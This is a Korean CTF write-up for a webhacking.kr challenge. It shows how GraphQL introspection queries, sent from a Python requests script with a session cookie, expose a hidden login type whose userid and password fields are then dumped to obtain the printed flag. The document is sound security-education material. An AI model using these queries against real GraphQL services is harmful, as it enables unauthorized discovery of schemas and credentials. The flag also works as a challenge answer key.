





# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

Hello world :)를 클릭하면 popcat이 나온다.


Hell world :(를 누르면 우는 모습의 고양이가 나온다.


javascript를 보면 view.php로 GET method로 query라는 데이터에 일정 포맷의 데이터를 넣고 전송한다.

```javascript
... 생략 ...
  q = `query{
    view{
      no,
      subject,
      content
    }
  }`;
  xhr = new XMLHttpRequest();
  xhr.open("GET", "/view.php?query="+JSON.stringify(q).slice(1).slice(0,-1),false);
  xhr.send();
... 생략 ...
```

Python을 이용하여 똑같이 접근해보자.

```python
import requests

CHALLENGE   = 'http://webhacking.kr:10012/'
SESSID      = 'k36gl297gtgobap4pp45qdb532'
headers     = {'Cookie':'PHPSESSID='+SESSID}

query       = 'query{view{no,subject,content}}'
url         = CHALLENGE + 'view.php?query='+query
req         = requests.get(url=url, headers=headers)
print(req.text)

[Output]
{"data":{"view":[{"no":1,"subject":"Hello world :)","content":""},{"no":2,"subject":"Hell world :(","content":""}]}}
```

이번엔 query에 빈 값을 보내보자. GraphQL라는 것을 사용한다는 것을 유추할 수 있다.

```python
... 생략 ...
query       = 'query{}'
... 생략 ...

[Output]
{"errors":[{"message":"Syntax Error: Expected Name, found \"}\".","locations":[{"line":1,"column":7}],"extensions":{"code":"GRAPHQL_PARSE_FAILED","exception":{"stacktrace":["GraphQLError: Syntax Error: Expected Name, found \"}\".","    at syntaxError (/root/node_modules/graphql/error/syntaxError.js:15:10)","    at Parser.expectToken (/root/node_modules/graphql/language/parser.js:1413:40)","    at Parser.parseName (/root/node_modules/graphql/language/parser.js:98:22)","    at Parser.parseField (/root/node_modules/graphql/language/parser.js:295:28)","    at Parser.parseSelection (/root/node_modules/graphql/language/parser.js:284:81)","    at Parser.many (/root/node_modules/graphql/language/parser.js:1523:26)","    at Parser.parseSelectionSet (/root/node_modules/graphql/language/parser.js:271:24)","    at Parser.parseOperationDefinition (/root/node_modules/graphql/language/parser.js:199:26)"," 
   at Parser.parseDefinition (/root/node_modules/graphql/language/parser.js:137:23)","    at Parser.many (/root/node_modules/graphql/language/parser.js:1523:26)"]}}}]}
```

GraphQL-Injection이라는 것이 있다.

> [GraphQL-Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection)

```python
... 생략 ...
query       = 'query{__schema{types{name}}}'
... 생략 ...

[Output]
{"data":{"__schema":{"types":[{"name":"Board"},{"name":"Int"},{"name":"String"},{"name":"User_d51e7f78cbb219316e0b7cfe1a64540a"},{"name":"Query"},{"name":"CacheControlScope"},{"name":"Upload"},{"name":"Boolean"},{"name":"__Schema"},{"name":"__Type"},{"name":"__TypeKind"},{"name":"__Field"},{"name":"__InputValue"},{"name":"__EnumValue"},{"name":"__Directive"},{"name":"__DirectiveLocation"}]}}}
```

모든 스키마를 추출하는 쿼리이다.

    query{__schema{queryType{name},mutationType{name},types{kind,name,description,fields(includeDeprecated:true){name,description,args{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue},type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},isDeprecated,deprecationReason},inputFields{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue},interfaces{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},enumValues(includeDeprecated:true){name,description,isDeprecated,deprecationReason,},possibleTypes{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}}},directives{name,description,locations,args{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue}}}}

서버로 보내보자.



응답값을 살펴보면 로그인 관련 데이터가 보인다.



다음과 같은 쿼리를 전달하면 FLAG를 얻을 수 있다.

    {login_51b48f6f7e6947fba0a88a7147d54152{userid_a7fce99fa52d173843130a9620a787ce,passwd_e31db968948082b92e60411dd15a25cd}}



FLAG를 인증하여 점수를 획득하자.




# **FLAG**

**FLAG{i_know_how_to_use_graphql}**